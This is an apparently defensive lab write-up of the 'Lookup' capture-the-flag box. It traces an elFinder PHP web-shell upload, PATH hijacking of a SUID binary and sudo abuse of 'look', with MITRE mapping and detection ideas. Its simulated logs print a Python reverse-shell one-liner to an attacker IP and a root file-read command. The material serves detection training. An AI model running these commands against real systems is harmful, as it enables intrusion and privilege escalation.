

# 🧪 Lab Writeup: Lookup (Easy)

<div align="center">
  
  
  
  
</div>

## 🎯 The Mission
Simulate a realistic attack workflow demonstrating network & web enumeration, authentication bypass, command injection exploitation, and Linux privilege escalation to evaluate and improve SOC detection capabilities.

---

## 🗺️ Attack Topology



---

## 📊 Executive Summary

| Phase | Description | Key Focus |
| :--- | :--- | :--- |
| **Initial Access** | Vhost enumeration led to an exposed elFinder utility, manipulated for RCE via PHP upload. | Detecting anomalous file uploads (`.php`) to web directories. |
| **Execution** | PTY shell spawned and internal enumeration commenced. | Monitoring web user (`www-data`) spawning interactive shells. |
| **Privilege Escalation** | SUID binary (`pwm`) PATH hijacking for lateral movement to user `think`. | Detecting malicious PATH modifications and SUID exploitation. |
| **Root Access** | Sudo misconfiguration (`/usr/bin/look`) utilized for arbitrary file reading. | Auditing unrestricted sudo command execution. |

---

## ⏱️ Incident Timeline (Simulated)
*   **09:00:00 UTC:** Nmap enumeration initiated against `lookup.thm`.
*   **09:12:30 UTC:** Virtual host `files.lookup.thm` discovered.
*   **09:15:45 UTC:** Malicious PHP payload successfully uploaded via the elFinder utility.
*   **09:16:10 UTC:** Reverse shell connection established as `www-data`.
*   **09:25:00 UTC:** SUID enumeration executed; `/usr/sbin/pwm` identified.
*   **09:30:15 UTC:** PATH hijacking executed; lateral movement to user `think` achieved.
*   **09:40:00 UTC:** Arbitrary file read executed via `sudo /usr/bin/look "";` root flag captured.

---

## 🔍 The Investigation

### 1. Alert Triage & Initial Access Analysis
*   **Analyst Action:** Review Nginx access logs for anomalous file uploads and command injection patterns targeting the elFinder application.
*   **Observation:** The attacker manipulated the image rename/rotation functionality to upload a PHP web shell (`shell.php`), facilitating Remote Code Execution (RCE).

<details>
  <summary>Click to view: Simulated Nginx Access Log - Malicious Upload</summary>

  ```
  10.10.15.55 - - [24/May/2026:09:15:45 +0000] "POST /php/connector.minimal.php HTTP/1.1" 200 452 "http://files.lookup.thm/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36"
  10.10.15.55 - - [24/May/2026:09:16:10 +0000] "GET /files/shell.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.15.55%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27 HTTP/1.1" 200 0 "-" "curl/7.68.0"
  ```
</details>

### 2. Execution & Persistence Verification
*   **Analyst Action:** Query Sysmon/Auditd logs for interactive shell spawning and system enumeration commands executed by the web service account.
*   **Observation:** The `www-data` account executed a Python PTY spawn command, followed by a system-wide search for SUID binaries.

<details>
  <summary>Click to view: Simulated Auditd Log - SUID Enumeration</summary>

  ```
  type=SYSCALL msg=audit(1653384300.123:456): arch=c000003e syscall=59 success=yes exit=0 a0=55d8f2a1b0b0 a1=55d8f2a1b0d0 a2=55d8f2a1b0e0 a3=7ffe8a9b1c00 items=2 ppid=1200 pid=1255 auid=4294967295 uid=33 gid=33 euid=33 suid=33 fsuid=33 egid=33 sgid=33 fsgid=33 tty=(none) ses=4294967295 comm="find" exe="/usr/bin/find" key="recon"
  type=EXECVE msg=audit(1653384300.123:456): argc=5 a0="find" a1="/" a2="-perm" a3="-4000" a4="2>/dev/null"
  ```
</details>

### 3. Privilege Escalation (PATH Hijacking & Sudo Misuse)
*   **Analyst Action:** Trace the execution path of the identified SUID binary (`/usr/sbin/pwm`).
*   **Observation:** The attacker created a malicious `id` script in `/tmp`, exported a modified PATH variable, and executed `pwm`. The binary, lacking absolute paths, executed the malicious `id` script as the user `think`, revealing credentials.
*   **Analyst Action:** Review `sudo` execution logs for the user `think`.
*   **Observation:** User `think` executed `/usr/bin/look` with elevated privileges without requiring a password, successfully reading the `/root/root.txt` file.

<details>
  <summary>Click to view: Simulated System Auth Log - Sudo Execution</summary>

  ```
  May 24 09:40:00 lookup sudo:    think : TTY=pts/0 ; PWD=/home/think ; USER=root ; COMMAND=/usr/bin/look "" /root/root.txt
  May 24 09:40:00 lookup sudo: pam_unix(sudo:session): session opened for user root by think(uid=1001)
  May 24 09:40:01 lookup sudo: pam_unix(sudo:session): session closed for user root
  ```
</details>

---

## 🎯 MITRE ATT&CK Mapping

| Tactic | Technique | ID | Description |
| :--- | :--- | :--- | :--- |
| **Initial Access** | Exploit Public-Facing Application | [T1190](https://attack.mitre.org/techniques/T1190/) | Exploitation of the exposed elFinder utility for RCE. |
| **Execution** | Command and Scripting Interpreter | [T1059](https://attack.mitre.org/techniques/T1059/) | Python PTY spawning and Bash shell interaction. |
| **Privilege Escalation** | Hijack Execution Flow: Path Interception | [T1574.007](https://attack.mitre.org/techniques/T1574/007/) | PATH hijacking via the vulnerable `/usr/sbin/pwm` SUID binary. |
| **Privilege Escalation** | Abuse Elevation Control Mechanism: Sudo | [T1548.003](https://attack.mitre.org/techniques/T1548/003/) | Abuse of `sudo -l` misconfiguration to execute `/usr/bin/look` as root. |

---

## 🛑 Closing: Remediation & Lessons Learned

### Containment & Eradication Strategy
*   **Remediation Strategy:** Remove the malicious PHP web shell (`shell.php`) from the web directory.
*   **Remediation Strategy:** Patch or update the elFinder utility to a secure version, or enforce strict authentication and input validation (MIME type checking, renaming restrictions) to prevent unauthorized file uploads.
*   **Remediation Strategy:** Audit and update the `/usr/sbin/pwm` binary to utilize absolute paths (e.g., `/usr/bin/id`) to mitigate PATH hijacking vulnerabilities.
*   **Remediation Strategy:** Review the `/etc/sudoers` file and rigorously restrict the commands permitted for the user `think`. Remove utilities capable of arbitrary file reading (like `look`, `less`, `more`) from passwordless `sudo` execution.

### Post-Incident Activity (Detection Opportunities)
*   **Analyst Action:** Develop a Splunk alert monitoring Apache/Nginx access logs for anomalous file uploads (`POST` requests) resulting in the creation of `.php` files within known upload or image directories.
*   **Analyst Action:** Create a Sigma rule to detect the execution of web server processes (e.g., `www-data`, `nginx`, `apache`) spawning interactive shells (`/bin/bash`, `nc`, or `python` PTY invocations).
*   **Analyst Action:** Implement an alert triggering on suspicious modifications to the `PATH` environment variable immediately preceding the execution of known or custom SUID binaries.
*   **Analyst Action:** Tune existing SIEM rules to alert on `sudo` executions that leverage specific binaries (`look`, `awk`, `sed`) capable of unrestricted file reading when executed with arbitrary arguments.
